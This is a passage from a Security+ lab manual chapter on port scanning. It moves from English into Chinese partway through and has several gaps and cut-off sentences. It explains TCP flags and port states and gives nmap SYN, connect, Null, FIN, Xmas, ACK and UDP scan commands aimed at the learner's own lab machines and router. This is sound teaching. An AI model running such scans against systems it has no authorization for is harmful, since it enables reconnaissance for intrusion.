## Chapter 16
Security Tools and Techniques

## Lab Exercises

- 16.01 Port Scanning with Nmap
- 16.02 Sockets with netcat (nc) and ncat
- 16.03 Packet Crafting with hping3
- 16.04 Packet Crafting with Scapy

Lab Analysis

Key Term Quiz

Securing your network involves not only the use of security tools but also the knowledge, skills, and techniques related to effectively, efficiently, and properly using them! Nmap is one of the most often used tools for both pentesters and cybercriminals. You’ll get knowledge and experience with it in this chapter.

You’ll also gain valuable knowledge and experience with netcat (nc), also known as the “TCP/IP Swiss Army Knife” for its many capabilities, including varied ways of creating different types of communication connections. Again, this is used by both the good guys and the bad guys.

Up until now in this book, all the network traffic you sent was created for you by the operating system. Using hping3 and Scapy, in this chapter, you’re finally going to have full control of data created. Although this technique is called packet crafting, in addition to crafting IP packets and ICMP packets, you’ll also be crafting Transmission Control Protocol (TCP) segments, User Datagram Protocol (UDP) datagrams, and more. Packet crafting, following the theme of tools and techniques in this chapter, is performed by both white


白帽黑客和黑帽黑客。

30 分钟

## 实验练习 16.01：使用 Nmap 进行端口扫描

渗透测试和网络攻击遵循相同的算法。首先，你找到系统（如第 22 章所示）。接下来，你在这些系统上找到程序或服务（如本章所示，通过端口扫描）。然后，你在这些系统上的这些程序或服务中寻找漏洞（如第 25 章所示）。然后，你找到这些漏洞可以被利用的方式（如第 22 章所示）。最后，你实际去利用这些漏洞（如第 22 章所示）。现在你已经攻破了系统，你可以使用它们作为跳板访问同一网络上的其他系统以及不同网络上的系统。

网络通信在物理上进出机器的方式（在 OSI 模型第 1 层，物理层）是通过网络接口卡（NIC）。那些 1 和 0 正是通过 NIC 进入和离开你的机器（该 NIC 同时存在于 OSI 模型的第 1 层和第 2 层数据链路层），它是你的机器与外界的连接。然而，网络通信在逻辑上进出机器的方式是通过程序或服务。服务是在后台运行的程序，与登录无关，在 Windows 中。在 Linux 中，使用守护进程一词代替服务（在 Linux 中，服务一词指的是调用控制守护进程的脚本的命令）。进程是程序或服务的实例化，可以进一步分解为线程。例如，Windows 客户端机器会在后台运行工作站服务，允许它们使用服务器消息块（SMB）协议与服务器服务创建和维护网络连接，以访问远程文件和打印机。

### 交叉引用

有关这些术语的更多信息可在第 2 章找到。

地址在 OSI 模型第 2 层帧头中可以找到。IP地址在 OSI 模型第 3 层（网络层）IP 数据包头中可以找到。端口号在 OSI 模型第 4 层（传输层）的 TCP 段头或 UDP 数据报头中可以找到。

根据目标端口，目标机器上的操作系统知道将数据发送到哪个程序或服务，就像邮递员知道把 21 号公寓的邮件放到 21 号公寓的信箱，把 80 号公寓的邮件放到 80 号公寓的信箱一样。

众所周知的端口使用 0–1,023 的端口号，保留给主要协议和服务。FTP 服务器在端口 21 上发送和接收控制流量（这就解释了为什么我选择把 21 号公寓的人命名为 Frank Thomas Peterson）。运行超文本传输协议（HTTP）的 Web 服务器在端口 80 上发送和接收未加密的流量（这就是为什么我选择把 80 号公寓的女人命名为 Helen Theresa Thomasina Parker）。Web 服务器在端口 443 上使用传输层安全（TLS）发送和接收加密流量。

已注册端口使用 1,024–49,151 的端口号，由互联网号码分配机构（IANA）为希望为其程序或协议使用通用端口的特定组织分配。然而，如果未被使用，任何系统都可以使用这些端口号。事实上，操作系统会使用此范围内的端口号并将其视为动态端口（稍后介绍）。已注册端口号对系统而言是本地有意义的。这不像使用已注册的 IP 地址那样具有全球范围。

动态端口使用 49,152–65,535 的端口号，由客户端应用程序按需使用。例如，浏览器可能会打开端口 60,000 以向监听端口 80 请求的 Web 服务器发送请求。Web 服务器的响应源自端口 80，目标是浏览器打开的端口。浏览器和 Web 服务器之间的通信完成后，浏览器将关闭其打开的端口，但 Web 服务器的端口将保持打开以供新的传入连接。如前所述，操作系统有时也会为相同目的使用已注册端口号范围内的未使用端口。

端口扫描涉及向目标机器发送数据包以识别端口的状态。从网络安全角度来看，端口扫描有助于验证你控制下的系统的安全性。从网络犯罪角度来看，它允许攻击者找到存在可被利用漏洞的程序或服务。

可以发送许多不同类型的扫描。你只需为手头的任务选择合适的扫描，或不同扫描技术的组合。

端口可以分为三种状态之一：开放、关闭或被过滤。开放端口和关闭端口之间其实只有一种区别。开放端口上有程序或服务在监听，而关闭端口没有。例如，如果你启动 FileZilla FTP 服务器，端口 21 就是开放的。停止 FileZilla FTP 服务器，端口 21 就是关闭的。如果启动 Apache Web 服务器，端口 80 现在是开放的。停止 Apache Web 服务器，端口 80 现在是关闭的。

被过滤的端口是开放或关闭的端口，但由于数据包过滤阻止扫描到达端口而无法确定。过滤可能来自专用防火墙设备、路由器规则或基于主机的防火墙。有时会对被过滤的端口发送 ICMP 错误消息进行响应。然而，通常过滤器会直接丢弃流量且不发送响应。因此，有时需要多次发送这些探测以确保缺乏响应是由于过滤而不是网络拥塞所致。这会大大减慢扫描过程。

防火墙不会打开端口。防火墙不会关闭端口。防火墙过滤端口。

如果基于网络的防火墙设置为拒绝部分或全部流量到发送和接收端口 22 流量的安全外壳（SSH）服务器，你仍然在机器上运行 SSH 服务器。防火墙没有关闭机器上的端口 22。如果你在 SSH 服务器上运行 netstat，你会看到端口 22 确实是开放的。因此，网络内部的任何主机都能够访问 SSH 服务器，因为基于网络的防火墙过滤端口 22 不会影响它们。当 SSH 服务器上的基于主机的防火墙过滤部分或全部传入端口 22 的流量时，如果服务已启动，端口 22 仍然是开放的。

假设我在 Finger Lakes Community College（FLCC）Victor Campus Center 教课。把网络与网络安全实验室的课程想象成正在运行的程序或服务。把房间号（VC206）想象成让学生知道入口的端口号。课程进行时，端口是开放的。课后，我们都离开了。灯关了，门锁上了。端口是关闭的。

想象一下你试图进入 FLCC 的 Victor Campus Center，但前门的安全警卫不让你进去。那名警卫就是防火墙。你甚至无法到达我的教室门口来确定课程是否在进行（开放端口）或不进行（关闭端口），因为你被防火墙过滤了（被过滤端口）。

端口扫描还可以潜在地识别目标机器的操作系统，以及在这些机器上运行的程序的版本。虽然有许多不同的端口扫描工具，但端口扫描的事实标准工具是 Nmap（Network Mapper）。Nmap 也可以最初用于查找网络上可用的主机以进行探测。

想象一个正在踩点的窃贼。窃贼可能会走到一栋房子前，简单地转动门把手或推一下窗户，看看它是锁着还是没锁。技术上讲，这没有什么违法之处（不考虑非法入侵）。那么端口扫描呢？嗯，实际上有三起为人所知但非常罕见的针对进行端口扫描的人的法律案件。

1999 年，Cherokee County Georgia Emergency 911 系统的一名顾问扫描了由竞争咨询公司控制的 Cherokee County Web 服务器。竞争公司检测到扫描并向警方报告，警方以违反《计算机欺诈和滥用法》（CFAA）为由逮捕了该顾问。CFAA 涉及任何故意未经授权访问受保护计算机并因此造成损害的人，以及其他一些要求。第二家咨询公司声称因调查端口扫描及相关活动而遭受损失。民事案件在审判前被驳回。刑事法院也认为缺乏依据，所有指控都被撤销。该顾问虽然案件被撤销，但却背负了六位数的律师费，并在法庭上度过了许多充满压力的岁月。不过也有一个圆满的结局。在花费大量时间教育律师有关所涉及的技术问题后，该顾问能够开始一个成功的


- 了解如何将某些扫描与其他扫描结合使用来进行情报收集

## 实验室材料和设置

本实验所需的材料如下：

- 《计算机安全原理：CompTIA Security+ 及以上》教科书
- 你在第 1 章安装的 Kali Linux VM
- 你在第 1 章安装的 Windows 10 VM
- 一台带 Internet 连接的网络浏览器

## 开始吧！

在 OSI 模型的第 4 层，TCP 在传输任何数据之前先在两个系统之间建立连接（本节中称为客户端和服务器），要求每个消息都得到确认，并通过 TCP 三次握手保证数据交付。

用非技术术语来说，客户端说：“嘿，我想跟你说话！” 服务器回说：“我也想跟你说话，而且，是的，你可以跟我说话！” 然后客户端说：“好的，让我们开始吧！”

TCP 头中的标志代表特定的控制信息，每个标志由一个位表示。将标志打开（或设置）意味着将该位的值设为 1。将标志关闭（或清除）意味着将该位的值设为 0。TCP 头中有六个标准标志（以及三个专用标志）。

我们现在将重点关注其中两个标准标志，其他标志稍后再说。此外，我们将查看一个简化的 TCP 头部，仅关注相关的字段和值。

在 TCP 三次握手的第 1 步，如图 16-1 所示，客户端打开 SYN（同步）标志，通过在该位位置放置 1 来打开，并生成一个伪随机序列号，放置在序列号字段中。假设为 9。此步骤仅因 SYN 标志打开而简称为 SYN。

在 TCP 三次握手的第 2 步，如图 16-2 所示，服务器通过发送 SYN 和 ACK 标志都打开的 TCP 段进行响应，并生成一个伪随机序列号，放置在序列号字段中。假设为 2021。服务器还在确认号字段中将客户端发送的序列号加 1。假设为 10。此步骤因 SYN 和 ACK 标志都打开而简称为 SYN-ACK。TCP 段（即 IP 数据包的有效载荷）被放置在 IP 数据包中，IP 数据包被放置在帧中，假设是远程通信，则发送到服务器的默认网关。

客户端在 TCP 三次握手的第 3 步中通过发送另一个 TCP 段进行响应，ACK 标志打开，在确认号字段中将服务器发送的序列号加 1（见图 16-3）。在我们的示例中，那将是 2021 加 1，即 2022。此步骤因 ACK 标志打开而简称为 ACK。

**TCP 段**

| 源端口 | 目的端口 | 序列号 | 确认号 | 标志 |
| --- | --- | --- | --- | --- |
| 60,000 | 80 | 10 | 2022 | ACK |

**图 16-3 ACK**

此时，两个系统已连接。三步中的 TCP 段没有任何数据/有效载荷。它只是 TCP 头中的控制消息。现在，当任一侧传输实际数据时，无论是 FTP、HTTP、TLS、SSH 还是其他，都被封装在 TCP 头内部。

此外，序列号现在将按数据的大小增加。每个发送的字节都会得到确认。如果没有确认，字节将被重传，直到得到确认。这就是 TCP 兑现其保证数据交付承诺的方式。

如果此时你的 VM 上没有 Wireshark（这意味着你在第 15 章之前做本章），请按照以下步骤操作。

1. 运行 VMware Workstation Player 并启动 Windows 10 VM。前往 wireshark.org 并点击下载按钮。你将使用 Wireshark，这款著名的数据包嗅探器，来观察本实验中发送和接收的流量。
2. 点击 Windows 安装程序（64 位）下载可执行文件。运行可执行文件，并在提示“你是否要允许此应用对你的设备进行更改？”时点击“是”。


**图 16-4 罗切斯特理工学院（RIT）的 Vint Cerf 和 Jonathan S. Weissman**

我对他笑了笑，但他也告诉了我他的实际逻辑。如果关闭的端口没有响应，将会出现不必要的延迟，客户端只是在等待服务器的回复。TCP 定时器最终会启动并关闭连接，但这可能需要很长时间。发送 RST 不留任何想象空间，是一种明确表示“抱歉，我们已关闭！”的方式。当然，Vint Cerf 和 Bob Kahn 在设计 TCP/IP 套件时，比黑客、网络犯罪和网络安全成为日常术语早了很多年。

打开的端口当然会用打开 SYN 和 ACK 标志的 TCP 段进行响应。如果不是这样，你就无法连接到 Web 服务器、FTP 服务器、电子邮件服务器、SSH 服务器或任何使用 TCP 作为第 4 层协议的服务器。然而，与其用打开 ACK 标志的 TCP 段完成 TCP 三次握手，Nmap 会向探测的机器发送 RST。如果 Nmap 用 ACK 完成三次握手，被探测机器的应用程序上会出现一条日志条目，标识探测机器的源 IP 地址。探测机器希望尽可能保持隐蔽。这就是为什么 Nmap 会发送 RST 而不是 ACK 的原因。SYN 扫描确实需要 root 访问权限，因为 Nmap 正在创建这些原始数据包进行发送，而不是依赖操作系统来完成。这使得在发现开放端口的情况下可以发送 RST，而不是 ACK。

现在，你将执行 SYN 扫描。在每个命令后按 ENTER。

- a. 在 Kali Linux 终端中输入 `nmap | less`。你会看到非常详细的帮助输出。按 ENTER 逐行浏览，或按空格键逐页浏览。你可以用方向键上下移动。按 Q 退出。

  如你所见，Nmap 不仅进行端口扫描，还包括主机发现、服务和版本检测等。

- b. 输入 `man nmap` 查看 Nmap 手册页。按 Q 退出。

- c. 当未指定扫描类型且使用 `sudo` 时，Nmap 使用 SYN 扫描。我们将在下一步看到当未指定扫描类型且未使用 `sudo` 时会发生什么。输入 `sudo nmap`，后跟 Windows 10 VM 的 IP 地址（例如，`sudo nmap 192.168.1.121`）。在提示时提供你的密码，现在以及本章期间都会需要。

  要明确指定 SYN 扫描，`-s` 选项（扫描）后跟 S（SYN）：

  ```
  sudo nmap -sS 192.168.1.121
  ```

  （替换为 Windows 10 VM 的 IP 地址。）

  注意输出，如图 16-5 所示，显示了端口及其相关的服务名称，表明这是一个 Windows 系统。

**图 16-5 SYN 扫描**

**注意**

本章的屏幕截图是在使用 Kali Linux 2020.2 通过 Bash（Bourne-again shell）时制作的。如第 2 章所述，Kali Linux 2020.4 从 Bash 切换到 Zsh（Z shell）。因此，你的终端外观会有所不同，但命令和输出的工作方式相同。

- d. 通过点击工具栏上第二个图标从左数起的红色方块，在 Wireshark 中停止捕获。

- e. 将过滤器更改为 `tcp.port==445` 并按 ENTER。



你会注意到在 Kali Linux VM 发送 SYN 后，开放的端口 445 发送了 SYN-ACK，如图 16-6 所示。然后 Kali Linux VM 用 RST 关闭了连接。



**图 16-6 端口 445 是开放的。**

- f. 将过滤器更改为 `tcp.port==21` 并按 ENTER。

Kali Linux VM 发送了 SYN，但由于端口 21 已关闭（Windows 10 VM 上目前没有运行 FTP 服务器），Windows 10 机器回传了 RST（在这种情况下 ACK 标志也被打开），如图 16-7 所示，关闭了连接并说：“抱歉，这里没有 FTP 服务器！”

**图 16-7 端口 21 已关闭。**

### 2a–2e

第 2 步：类似的扫描称为 connect 扫描，几乎不应该使用。connect 扫描以操作系统用来向另一台机器发起 TCP 连接的 `connect()` 函数命名。此扫描使用正常的 TCP 连接，与每个 TCP 应用程序使用的方法相同，来确定端口是否可用。这不像 SYN 扫描那样使用 Nmap 制作原始数据包。因此，connect 扫描效率较低，耗时更长，使用资源更多。与 SYN 扫描一样，connect 扫描中关闭的端口会用 RST 响应初始 SYN，开放的端口会用 SYN-ACK 响应初始 SYN。不同之处在于，由于操作系统发送了初始 SYN，当扫描设备收到 SYN-ACK 后，它会向被探测机器发送 ACK，从而实际完成三次握手并在被探测机器的应用程序上记录连接。

这就像一个窃贼，不是谨慎地转动门把手，




ACK。之后，Kali Linux 虚拟机上的 Nmap 会发送一个 RST（同时也会设置 ACK 标志），但现在被探测机器的应用程序中会有一条关于已完成的连接的日志记录。



图 16-9 端口 445 是开放的，但三次握手完成后，扫描机器被记录下来。

- e. 将过滤器改为 `tcp.port==21` 并按回车键。

与 SYN 扫描类似，使用连接扫描时，如图 16-10 所示，关闭的端口会对 SYN 响应一个 RST（在这种情况下还会伴随一个 ACK）。

图 16-10 端口 21 是关闭的。

### 3a–3k

### 第 3 步

根据 RFC 793 (https://tools.ietf.org/html/rfc793)，如果一个 TCP 段没有设置 SYN、ACK 或 RST 标志，那么当端口关闭时，会返回一个 RST；当端口开放时，则没有响应。其他三个标志——URG（紧急）、PSH（推送）和 FIN（finis——在 RFC 中如此拼写，引用拉丁语中意为“结束”的词）——的任意组合都会触发此行为。然而，有三种扫描——空扫描（Null scan）、FIN 扫描和 Xmas 扫描——被选中来利用这种行为。因此，Nmap 需要构建这些数据包，并且必须拥有 root 权限。

### 注意

URG 标志是过去遗留的产物，现代协议并不怎么使用它。它曾经是一种告诉目标系统对某一数据段中的数据进行优先处理的方式，优先处理的位置由 TCP 头中的紧急指针字段指定。

PSH 标志用于告诉发送系统立即将数据向下推送并发送出去，而无需等待缓冲区积累（在发送许多 TCP 段时，为了高效传输通常会这样等待），同时也用于告诉接收系统将接收到的数据向上推送给接收应用程序，而无需等待缓冲区积累（在接收许多 TCP 段时，为了高效传输通常会这样等待）。PSH 标志在 HTTP 或 TLS 会话结束时使用，因为此时没有更多数据需要发送或接收；在 SSH 会话中也会使用，因为按键需要立即发送到远程系统，此外还有其他场景。如果没有 PSH 标志，可能会出现显著的延迟，导致通信无法忍受。

FIN 标志用于拆除已建立的 TCP 连接，其方式与 SYN 标志用于建立连接类似。拆除过程使用四个步骤（两个独立的双向握手），不同于 TCP 三次握手的三个步骤。首先，发起 TCP 连接终止（也称为 TCP 拆除）的一方发送一个设置了 FIN 标志的 TCP 段。其次，另一方发送一个设置了 ACK 标志的 TCP 段。第三，在第二步中发送了带有 ACK 标志的段的那一方，现在发送另一个段，这次设置了 FIN 标志。第四，发起拆除的一方发送一个设置了 ACK 标志的段。

终止过程由四个步骤组成（两次双向握手），因为当一个系统收到第一个 FIN 时，它需要让其应用程序进程知道此事，然后等待响应。如果应用程序本身就准备好终止连接，则会发送 FIN。如果应用程序还有更多数据要发送，它可以继续在这个现在处于“半关闭”状态的连接中发送更多数据，并在所有数据发送并确认后最终发送 FIN（这会引发发送第一个 FIN 的一方回复 ACK）。

RFC 793 还说明，在连接建立后，后续的段中总是会设置 ACK 标志。这也是为什么设置 FIN 时，ACK 标志也会一并设置。然而，FIN-ACK 组合并不等同于 SYN-ACK 组合。在响应 FIN 而发送的每个 ACK 的 TCP 头中，确认号

无论端口是开放还是关闭，Windows 机器总是会对空扫描、FIN 扫描和 Xmas 扫描发送 RST 响应。

- d. 当您将 **N** 改为 **F** 进行 FIN 扫描时，会看到相同的结果：

```
nmap -sF -p 445 192.168.1.121
```

（请替换为 Windows 10 虚拟机的 IP 地址。）

- e. 当您使用 **X** 进行 Xmas 扫描时，也会看到相同的结果：

```
nmap -sX -p 445 192.168.1.121
```

（请替换为 Windows 10 虚拟机的 IP 地址。）

空扫描、FIN 扫描和 Xmas 扫描的输出见图 16-11。

图 16-13 再次展示空扫描、FIN 扫描和 Xmas 扫描

Wireshark 显示，每次扫描对每个端口发送两个探测包，如图 16-14 所示。这是因为 Nmap 不确定数据包是否丢失，或者端口是被过滤还是开放。第二次尝试验证了其中一种情况。如果收到了 RST，则说明第一个数据包丢失。如果仍然没有响应，则说明端口是开放的或被过滤。



图 16-14 Wireshark 显示被探测机器开启防火墙时的空扫描、FIN 扫描和 Xmas 扫描

- h. 在 Kali Linux 虚拟机中，按 CTRL-ALT-T 打开一个新的终端标签页。在新终端中，输入 sudo wireshark 并按回车键启动 Wireshark。双击 eth0 接口开始嗅探。

在 Kali Linux 原来的终端标签页中（您可以通过顶部每个标签页的按钮在它们之间切换），使用 Xmas 扫描扫描您的路由器：

```
sudo nmap -sX 192.168.1.1
```

（请替换为您的默认网关的 IP 地址，如果不同的话。）

要查找路由器的 IP 地址，请在 Windows 10 虚拟机中打开命令提示符并输入 **ipconfig**。此处应使用默认网关 IP 地址。

根据您的路由器配置，您可能会看到端口 80 和 443 都显示为开放或被过滤，如图 16-15 顶部所示。

```
Kali 2020.2 (Weissman) - VMware Workstation 15 Player (Non-commercial use only)

jonathan@kali-weissman:~$
jonathan@kali-weissman:~$ sudo nmap -sX 192.168.1.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 23:15 EDT
Nmap scan report for 192.168.1.1
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE
80/tcp   open|filtered http
443/tcp  open|filtered https
MAC Address: 58:6D:8F:1E:1E:E4 (Cisco-Linksys)

Nmap done: 1 IP address (1 host up) scanned in 12.41 seconds
jonathan@kali-weissman:~$ sudo nmap -sA 192.168.1.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 23:15 EDT
Nmap scan report for 192.168.1.1
Host is up (0.087s latency).
All 1000 scanned ports on 192.168.1.1 are unfiltered
MAC Address: 58:6D:8F:1E:1E:E4 (Cisco-Linksys)

Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds
jonathan@kali-weissman:~$
```

图 16-16 Wireshark 显示端口 80 是开放的，ACK 扫描阐明了 Xmas 扫描的结果

- k. 现在将 Wireshark 中的显示过滤器更改为以下内容，以查看所有的 ACK 和 RST。Wireshark 按类型分组捕获它们（先是 ACK，然后是 RST）。

```
ip.addr==192.168.1.1 && tcp
```

（同样，请确保替换为您的默认网关的 IP 地址，如果不同的话。）

### 4a–4e

```
ip.addr==192.168.1.114 && udp.port==53
```

（请替换为 Kali Linux 虚拟机的 IP 地址。）

这将从显示中过滤掉与 Windows 主机之间的任何 DNS 流量，只关注与 Kali Linux 虚拟机之间的 DNS 流量。

- d. 在 Kali Linux 中，探测那个大家通常称为路由器的设备上使用 UDP 监听 53 端口的服务：

```
sudo nmap -sU -p 53 192.168.1.1
```

（请替换为您的默认网关的 IP 地址，如果不同的话。）

当然，我们说的是 DNS。

瞧，UDP 扫描识别出了路由器中的 DNS 服务器，如图 16-19 所示。



图 16-19 UDP 扫描发现 DNS 服务器。


在 Wireshark 中，我们可以看到服务器状态请求已收到响应，如图 16-20 所示。

